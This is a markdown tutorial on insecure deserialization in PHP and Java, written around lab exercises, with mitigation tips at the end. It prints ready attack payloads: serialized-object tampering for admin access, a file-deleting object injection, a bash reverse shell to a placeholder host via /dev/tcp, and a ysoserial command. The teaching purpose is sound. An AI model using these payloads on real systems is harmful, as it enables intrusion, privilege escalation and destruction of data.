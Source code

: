 ```yaml
---
title: "Insecure Deserlization"
tags:
    - WEB
    - PHP
date: "2024-08-9"
thumbnail: "/assets/img/thumbnail/serialization.png"
bookmark: true
---
```

# Serialization
---
 is the process of converting a complex data structures, such as objects and their fields.

Serializing data makes it much simpler to:
- Write complex data to inter-process memory, a file, or a database.
- Send complex data, for example, over a network, between different components of an application, or in an API call.
- Some languages serialize objects into binary formats.
- all of the original object's attributes are stored in the serialized data stream, including any private fields.
- Used for storing and transferring data.
# Insecure deserialization
---
deserialization vulnerabilities can be as easy as changing an attribute in a serialized object , identify and edit interesting attribute values. You can then pass the malicious object into the website via its deserialization process
**Used to**
1- RCE
2- privilege escalation
3- file access
4- DOS attack
5- Code Injection, SQL Injection, Path Traversal and Application Denial of Service, depending on the context.
**How to identify?**
 data flow in request
# PHP serialization
---
in code:
```php
$user->name = "carlos";
$user->isLoggedIn = true;
```
after selialization:
```php
`O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}`
```
- `O:4:"User"` - An object with the 4-character class name `"User"`
- `2` - the object has 2 attributes
- `s:4:"name"` - The key of the first attribute is the 4-character string `"name"`
- `s:6:"carlos"` - The value of the first attribute is the 6-character string `"carlos"`
- `s:10:"isLoggedIn"` - The key of the second attribute is the 10-character string `"isLoggedIn"`
- `b:1` - The value of the second attribute is the boolean value `true`

**Magic methods in PHP**
https://www.php.net/manual/en/language.oop5.magic.php
• you create exploits that pass data into dangerous methods automatically.
• Magic methods are a common feature of OOP like `__destruct()` or `__construct()` .
• Some languages have magic methods that are invoked automatically **during** the deserialization process, For example, PHP's unserialize()method looks for and invokes an object's `__wakeup()`magic method.
<img src="/assets/img/deser/1.png">

**In decoded session**
- `O:4:"User":2:{s:8:"username";s:6:"carlos";s:7:"isAdmin";b:0;}` —>change 0 to 1
- `O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";s:20:"ej9jdijdf9efje9eof9j9f";}`
—> change to `O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}`
in case the access_token or password doesn’t start with number so we can instead value with 0
`0 == "Example string" // true` in PHP
**Arbitrary object injection in PHP**
We need source code to create and inject a malicious serialized object to do specific function
<img src="/assets/img/deser/2.png">

notice the `CustomTemplate` class contains the `__destruct()`magic method. This will invoke the `unlink()` method on the `lock_file_path` attribute, `unlink()` method to delete file
`O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}`
### scenario
<img src="/assets/img/deser/3.png">

```php
O:18:"PHPObjectInjection":1:{s:6:"inject";s:13:"system('id');";}
->
O:18:"PHPObjectInjection":1:{s:6:"inject";s:71:"system('/bin/bash -c \'bash -i >& /dev/tcp/ip/port 0>&1\'');";}
```
# Java Serialization
Example :
1- Item java : have code for class named Item
<img src="/assets/img/deser/4.png">
2- Serialize.java : conatin the serialization logic
<img src="/assets/img/deser/5.png">
- Java objects always begin with the same bytes, which are encoded as `ac ed`in hexadecimal and`rO0` in Base64  which is a standard java serialization format signature.
- Any class that implements the interface `java.io.Serializable` can be serialized and deserialized
- `readObject()`method, which is used to read and deserialize data from an `InputStream`
- In Java deserialization , a readObject()method declared in exactly this way acts as a magic method that is invoked during deserialization

**how to identify it ?**
search for object that it's magic bytes rO0
<img src="/assets/img/deser/6.png">
<img src="/assets/img/deser/7.png">

### **ysoserial (Java Deserialization)**
```bash
java -jar path/to/ysoserial.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```
# mitigation
---
1- user input should never be deserialized at all.
2- Use a cryptographic library to generate a signature for the object and validate it prior to deserializing the returned object.
3- Don’t use unserialize() function with user input, use JSON functions instead.
---
